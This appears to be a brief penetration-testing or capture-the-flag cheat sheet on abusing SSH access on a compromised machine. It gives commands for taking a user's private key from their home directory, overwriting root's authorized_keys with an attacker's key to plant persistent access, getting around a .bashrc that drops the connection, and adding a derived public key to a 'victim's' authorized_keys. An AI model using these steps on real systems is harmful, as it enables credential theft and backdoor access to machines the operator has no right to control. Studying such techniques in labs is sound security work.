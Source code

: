 SSH

## Use private key

- A private SSH key is always a good place to start. We know that there’s a user called roosa and therefore her SSH key would be at a location ```/home/roosa/.ssh/id_rsa```

- All there’s left to do now is to save the roosa's key file, and use it to log into ssh.

- Make sure you chmod the key to 600 permissions 

- ```ssh roosa@<IP> -i <roosa's key>```


---

## Tiny public ssh key

use ssh-ed25519

example :

`echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
`

## Connection dropped


- If connection immediately drops, it's probably because of the .bashrc. Move it by chaining a command : ```ssh user@ip ‘mv ~/.bashrc whatever’```

- Note that it is possible to execute everything at that moment !!

--- 

## Use public key


- The following command will retrieve the public key from a private key:

```ssh-keygen -y -f /path/to/your_private_key_file (eg. /root/.ssh/id_rsa or ~/.ssh/custom_key_name)```

- Then copy this public key in authorized keys file of the victim, and connect with the private key

---

## Permissions on .ssh directory

```
700 ~/.ssh
600 ~/.ssh/authorized_keys
```

